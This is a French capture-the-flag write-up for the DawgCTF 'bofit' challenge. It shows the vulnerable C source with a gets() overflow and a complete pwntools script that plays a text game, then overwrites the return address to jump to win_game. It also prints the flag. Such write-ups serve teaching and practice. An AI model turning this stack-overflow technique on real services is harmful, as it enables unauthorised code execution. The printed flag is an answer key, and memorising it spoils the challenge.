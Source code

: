 ![Screen](./img/home.png)

Le script utilisé pour l'exploit, le binaire et le code source sont dispo dans le même dossier que ce fichier.

On nous fournit une commande netcat. Quand on s'y connecte, on exécute un programme (bofit.c)

En regardant dans bofit.c on vous rapidement la fonction `win_game()`, qui envoie le flag.

```C
void win_game(){
	char buf[100];
	FILE* fptr = fopen("flag.txt", "r");
	fgets(buf, 100, fptr);
	printf("%s", buf);
}
```
En continuant de fouiller dans le code, on voit que la variable `char input` vaut 20, mais que l'on récupère via `gets`, qui prend l'entièreté de l'user input.

Le but est donc simple. Abuser de cette variable pour buffer overflow pour jump sur la fonction `win_game`.

Cependant, un premier soucis arrive. Il faut accéder à la partie pour BOF, et pour cela il faut d'abord jouer à l'équivalent de Twist en CLI. Quand ils envoient "BOF it!" il faut répondre "B", "Pull it!" ==> "P" et ainsi de suite pour chaque action. Quand on reçoit "Shout it!" on peut exploit pour BOF car c'est la partie qui utilise `input`

Première étape: récupérer l'adresse de `win_game`
Pour ça `objdump -D bofit` suffit.

`0000000000401256 <win_game>:` 

Maintenant qu'on l'a il faut l'adapter et l'ajouter à notre payload.

Une fois modifiée à l'aide de pwn.p64() en python, on obtient `V\x12@\x00\x00\x00\x00\x00`
Plus qu'à faire un script qui joue au jeu puis envoie le payload!

Pour ça j'ai utilisé Pwn Tools en python

```python
from pwn import *

nc = remote('umbccd.io',4100) # on se connecte
intro = nc.recv()
print(str(intro) + '\n')
nc.sendline('B') # on commence le jeu
recv = nc.recv()
print(str(recv) + '\n')
i=True
while(i==True): # on joue au jeu tant que l'on a pas exécuté le payload
    if(recv == b'BOF it!\n'):
        print(str(recv) + '\n')
        nc.sendline('B')
    elif(recv == b'Pull it!\n'):
        print(str(recv) + '\n')
        nc.sendline('P')
    elif(recv == b'Twist it!\n'):
        print(str(recv) + '\n')
        nc.sendline('T')
    elif(recv == b'Shout it!\n'): # on peut envoyer le payload
        print(str(recv) + '\n')
        exploit = (10*'V\x12@\x00\x00\x00\x00\x00') # ici j'envoie 10 fois l'adresse modifiée, qui me permettra de ne pas m'ennuyer avec le padding, mais il suffit de l'envoyer 8 fois
        nc.sendline(exploit)
        i=False
        nc.interactive() # on recoit le flag
    recv = nc.recv()
```

Flag: `DawgCTF{n3w_h1gh_sc0r3!!}`

